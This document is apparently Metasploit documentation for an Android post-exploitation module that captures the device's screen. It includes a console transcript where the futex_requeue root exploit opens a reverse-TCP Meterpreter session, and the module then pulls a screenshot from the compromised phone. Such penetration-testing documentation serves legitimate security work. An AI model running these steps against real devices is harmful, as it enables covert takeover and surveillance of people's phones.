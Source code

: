 ## Description

  This module takes a screen capture with the Android built-in application to live off the land.
  `shell` or `root` access is required.

## Verification Steps

  1. Start msfconsole
  2. Get `shell` or `root` access on an Android device
  3. Do: ```use post/android/capture/screen```
  4. Do: ```set session [session]```
  5. Do: ```run```
  6. You should get a screen capture saved to your device.

## Options

### EXE_PATH

  Path to the `screencap` executable on Android device. Default is `/system/bin/screencap`.

### TMP_PATH

  Path to temp directory on Android device to save the screenshot to temporarily. Default is `/data/local/tmp/`.

## Scenarios

### Samsung Galaxy S3 Verizon (SCH-I535 w/ Android 4.4.2, kernel 3.4.0)

Utilizing futex_requeue to get root access.

  ```
msf exploit(android/local/futex_requeue) > run

[*] Started reverse TCP handler on 111.111.1.111:4444
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/cbvzt
[*] Loaded library /data/data/com.metasploit.stage/files/cbvzt, deleting
[*] Waiting 300 seconds for payload
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 4 opened (111.111.1.111:4444 -> 222.222.2.222:58577) at 2019-10-22 16:04:31 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > background
[*] Backgrounding session 4...
msf exploit(android/local/futex_requeue) > use post/android/capture/screen
msf post(android/capture/screen) > set session 4
session => 4
msf post(android/capture/screen) > run

[!] SESSION may not be compatible with this module.
[+] Downloading screenshot...
[+] Screenshot saved at /root/.msf4/loot/20191022161242_default_222.222.2.222_screen_capture.s_496457.png
[*] Post module execution completed
  ```

![20191022161242_default_192 168 2 14_screen_capture s_496457](https://user-images.githubusercontent.com/752491/67612706-d433ae80-f772-11e9-8344-30020515299e.png)

